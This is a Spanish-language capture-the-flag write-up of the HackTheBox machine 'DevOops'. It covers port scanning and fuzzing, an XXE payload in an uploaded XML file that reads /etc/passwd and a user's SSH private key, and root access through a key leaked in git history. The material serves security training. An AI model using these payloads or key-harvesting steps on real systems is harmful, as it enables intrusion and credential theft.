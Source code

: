 # DevOops {-}

## Introduccion {-}

La maquina del dia 05/08/2021 se llama DevOops
.

El replay del live se puede ver aqui

[![S4vitaar Tartar Sauce maquina](https://img.youtube.com/vi/NGNca3P9Tec/0.jpg)](https://www.youtube.com/watch?v=NGNca3P9Tec)

No olvideis dejar un like al video y un comentario...
## Enumeracion {-}

### Reconocimiento de maquina, puertos abiertos y servicios {-} 

#### Ping {-}

```bash
ping -c 1 10.10.10.91
```
ttl: 63 -> maquina Linux. 
Recordar que en cuanto a ttl se trata 64 = linux y 128 = windows. 
Pero como estamos en hackthebox hay un nodo intermediario que hace que el ttl disminuya una unidad

#### Nmap {-}

```bash
nmap -p- --open -T5 -v -n 10.10.10.91 -oG allPorts 
extractPorts allPorts
nmap -sC -sV -p22,5000 10.10.10.91 -oN targeted
```

| Puerto | Servicio | Que se nos occure? | Que falta?   |
| ------ | -------- | ------------------ | ------------ |
| 22     | ssh      | Acceso directorio  | Credenciales |
| 5000   | http     | Web, fuzzing       |              |


### Analizando la web {-}

#### Whatweb {-}

```bash
whatweb http://10.10.10.91:5000
```

Nada muy interesante

#### http-enum {-}

Lanzamos un web scan con nmap.

```bash
nmap --script http-enum -p5000 10.10.10.91 -oN webScan
```

No nos detecta nada

#### Chequear la web por puerto 5000 {-}

Con firefox navegamos en la web para ver lo que es. 

- Under construction
- la web es una simple imagen
- hablan de `.py`
- vemos usuarios

Como no hay nada interesante vamos a por WFUZZ

#### Fuzzing con WFuzz {-}

```bash
wfuzz -c -t 200 --hc=404 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt http://10.10.10.91:5000/FUZZ
```

Encontramos una ruta `/feed` y `/upload`. Lo chequeamos en firefox. 

#### Chequeamos la ruta upload {-}

Vemos una pagina que nos permite uploadear ficheros. Parece que tenemos que uploadear ficheros XML que tiene que tener los elementos
siguientes:

- Author
- Subject
- Content

Huele a **XXE** pero primero tratamos de ver si podemos uploadear ficheros de otro tipo.

creamos ficheros

1. fichero **txt**

    ```bash
    vi test.txt

    EEEEEEE
    ```

1. fichero **php**

    ```php
    vi test.php

    <?php
        echo "EEEEEEEEEEE";
    ?>
    ```

Cuando los uploadeamos no se ve nada. No sabemos si la web nos subio los archivos o no. Intentamos con un fichero XML

```xml
vi test.xml

<elements>
    <Author>S4vitar</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Lo uploadeamos y ahora vemos que el Blogpost a sido processado, vemos los elementos **Author** **Subject** **Content** y que lo a guardado en
`/home/roosa/deploy/src` y que la url para **later reference** es `/uploads/test.xml`

Si miramos lo que hay en `http://10.10.10.91:5000/upload/test.xml` vemos el contenido de nuestro fichero XML




## Evaluacion de vulnerabilidades {-}

### XXE {-}

Si la web nos reporta el contenido de un campo XML, los attackantes pueden approvechar de una *ENTITY* para remplazar el campo reportado
por el contenido de un fichero interno de la maquina.

En este caso, vemos que el campo **Author** esta reportado en la web y le indicamos que queremos ver el contenido del `/etc/passwd` en su lugar.

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Uploadeamos el fichero y si vamos en `http://10.10.10.91:5000/upload/nombre-del-fichero.xml` vemos que podemos ver el contenido del `/etc/passwd` de la 
maquina.

Como hemos visto que havia un usuario llamado **roosa**, intentamos ver si tiene un fichero `id_rsa`

```xml
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///home/roosa/.ssh/id_rsa" >]>
<elements>
    <Author>&xxe;</Author>
    <Subject>EEEEEEEEE</Subject>
    <Content>EEEAEAEAAAEAAEAE</Content>
</elements>
```

Despues de subir este nuevo fichero podemos ver la id_rsa del usuario roosa.



## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Conexion por SSH {-}

Como ya tenemos una id_rsa nos conectaremos como el usuario roosa

```bash
chmod 600 id_rsa
ssh -i id_rsa roosa@10.10.10.91
```

Ya estamos conectados como Roosa y podemos leer la flag.





## Escalada de privilegios {-}

### Rootear la maquina {-}

```bash
ls -la
id
sudo -l
```

Aqui vemos que el usuario roosa esta en el grupo sudo pero no tenemos su contraseña. Listando los ficheros del usuario **roosa**
vemos que hay muchos ficheros, lo analizamos mas en profundidad.

```bash
find \-type f 2>/dev/null
find \-type f 2>/dev/null | grep -v ".local"
```

Aqui no llama la atencion un directorio que contiene un `.git`. Sabiendo que repositorios **git** contienen un historico de tratamiento
de ficheros nos dirigimos en este proyecto y miramos el historico de comits.

```bash
cd work/blogfeed/
ls -la
git log
```

mirando el historico, vemos un mensaje un poco turbio **reverted accidental commit with proper key**

miramos lo que a passado en este commit. Nos copiamos el identificador del commit.

```bash
git log -p 33e87c312c08735a02fa9c796021a4a3023129ad
```

Aqui vemos que han borrado un key para ponerle otra. La copiamos y de la misma manera que con el usuario roosa, intentamos conectarnos como
root por ssh.

```bash
ssh -i id_rsa2 root@10.10.10.91
```

Y hemos podido entrar... Ya podemos examinar la flag.

